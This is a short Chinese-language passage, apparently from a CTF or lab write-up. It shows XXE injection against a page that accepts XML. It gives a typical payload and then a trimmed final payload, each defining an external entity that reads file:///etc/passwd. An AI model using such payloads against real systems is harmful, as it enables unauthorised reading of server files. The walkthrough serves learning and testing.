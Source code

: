 ![](./images/image-49.png)

可以看到有xml格式的内容

那就尝试一下XXE注入吧

一般来说常用的XXE代码是这样的👇

```
<?xml version=”1.0″?>
    <!DOCTYPE a[
    <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <abc>&xxe;</abc>
```

但是经过测试，<?xml version=”1.0″?>这一行好像会报错，不过删了也没关系

最终代码👇

```
<!DOCTYPE a[
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<xml><name>&xxe;</name></xml>
```

![](./images/image-50.png)
